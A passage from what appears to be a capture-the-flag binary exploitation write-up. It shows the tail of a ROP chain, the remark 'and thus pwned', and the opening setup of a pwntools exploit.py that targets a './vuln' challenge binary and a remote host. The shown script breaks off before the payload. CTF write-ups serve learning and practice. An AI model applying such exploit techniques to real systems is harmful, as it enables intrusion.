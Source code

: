 ```python
        0x401000,               # will go to rbx
        (stack-0x6b)
    ])
```

and thus pwned

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

here's the full exploit:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
from subprocess import run

# =========================================================
#                          SETUP                         
# =========================================================
exe = './vuln'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = '103.226.139.23', 31337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg

break *0x040106d
'''.format(**locals())
```